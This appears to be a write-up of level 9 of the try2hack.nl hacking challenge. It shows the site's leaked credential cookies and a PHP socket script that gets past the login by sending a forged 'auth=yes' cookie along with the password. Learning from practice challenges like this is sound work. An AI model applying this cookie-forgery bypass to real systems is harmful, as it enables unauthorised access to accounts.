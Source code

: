 #### Level 9

I tried to get some header information by sending a GET request like I did in Level 7.
I then noticed some cookies being set:
```
Set-Cookie: str_username=admin
Set-Cookie: str_password=yu0aertehbomb
Set-Cookie: auth=no
```
Sending a POST request with the login-data and setting the cookie auth to 'yes' seemed to do the trick:
```php
if (!$socket = fsockopen('try2hack.nl', 80, $errno, $errstr, 20)) {
    print $errno . "-" . $errstr . "\n";
} 
else {
    $out  = "POST /levels/level9-gnapei.xhtml HTTP/1.1\r\n";
    $out .= "Host: try2hack.nl\r\n";
    $out .= "Connection: close\r\n";
    $out .= "Cookie: auth=yes; str_username=admin; str_password=yu0aertehbomb;\r\n";
    $out .= "Content-Type: application/x-www-form-urlencoded\r\n";
    $out .= "Content-Length: 50\r\n\r\n";
    $out .= "username=admin&password=yu0aertehbomb&submit=Enter";
    fwrite($socket, $out);
    while (!feof($socket)) {
        print fgets($socket, 2046);
    }
    fclose($socket);
}
```